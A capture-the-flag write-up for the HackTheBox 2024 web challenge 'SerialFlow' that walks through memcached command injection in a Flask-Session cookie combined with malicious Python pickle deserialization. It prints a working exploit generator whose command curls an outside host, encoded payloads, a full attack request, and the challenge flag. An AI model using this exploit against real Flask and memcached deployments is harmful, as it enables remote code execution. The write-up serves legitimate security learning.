 ```yaml
---
name: SerialFlow (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for SerialFlow (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: false
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SerialFlow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=1530)

## Description

> SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Source

We can download the source code and see most of the app's functionality is in `app.py`.

```python
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor

    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

## Solution

Once again, the goal is clearly RCE since we have a `flag.txt` file at `/flag` with a randomised name.

I wasted a lot of time on rabbit holes and realise in hindsight, I should of investigated the `memcached` session stuff as it stands out as unusual.

A quick Google search of `memcached python vuln` returns some [general pentesting techniques](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache) but also an interesting [PoC video](https://www.youtube.com/watch?v=aNqXNdFf28w) titled `Remote Code Execution (RCE) in Python pylibmc through memcached injection`. However, the exploit was demonstrated 10 years ago at [BlackHat 2014](https://www.youtube.com/watch?v=K4OWPdMLi64) so it's unlikely to be applicable, right?

Well, if we adjust our search options to "in the past year" one of the top results is the [Top 10 web hacking techniques](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open) from Portswigger. Guess which vulnerability is featured there? 😼

That's right! [Exploiting Flask-Session with Memcached command injection utilizing crc32 collision and python pickle deserialization for RCE](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc) by D4D.

The article explains the exploit better than I can but essentially, we can leverage the `/set` route to set the Flask session cookie value for the key `uicolor`. Memcached terminates commands and data sequences using CRLF so we want to inject `\r` using quoted strings (`\015\012`).

Next, we want to encode a payload. Since [python pickle](https://docs.python.org/3/library/pickle.html) is used to deserialise data before saving to Memcached, we can [construct a malicious pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) that when deserialised, will trigger RCE.

Let's jump straight into testing the PoC! The only thing I changed is the command to `curl` (we want to verify the command executes) and the cache key/name to `420`.

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl https://cat.tunnelto.dev')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:420 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:420')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o", "\\")
        elif x < 8:
            pack += oct(x).replace("0o", "\\00")
        else:
            pack += oct(x).replace("0o", "\\0")

    return f"\"{pack}\""


print(generate_exploit())
```

We generate the payload, then simply replace our cookie value and make a call to the `/set` endpoint.

```bash
"\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\066\061\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\165\162\154\040\150\164\164\160\163\072\057\057\143\141\164\056\164\165\156\156\145\154\164\157\056\144\145\166\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```

I struggled for a while here, until I realised that `curl` is not installed on the machine lol 🤦‍♂️ If we change the command to `whoami` and test locally, we'll see `root` pop up in the logs 🙏

Furthermore, if we update the command to `cat /flag*.txt`, the flag will be printed in the server terminal! The problem is, we can't see the output on the remote instance 🤔

I tried to get a reverse shell, but it never made the connection (although I heard later others did have success with this). Ultimately, I ended up changing the `cmd` to `cp /flag*.txt application/templates/index.html`.

```bash
GET /set?uicolour=cat HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: session="\061\063\067\015\012\163\145\164\040\102\124\137\072\064\062\060\040\060\040\062\065\071\062\060\060\060\040\067\070\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\143\160\040\057\146\154\141\147\052\056\164\170\164\040\141\160\160\154\151\143\141\164\151\157\156\057\164\145\155\160\154\141\164\145\163\057\151\156\144\145\170\056\150\164\155\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\102\124\137\072\064\062\060"
```

We might need to send the request several times, as the server seems to crash regularly. Eventually, the command will execute and `index.html` will be replaced with the flag. Therefore, when we follow the redirect, the flag is displayed.

Flag: `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`
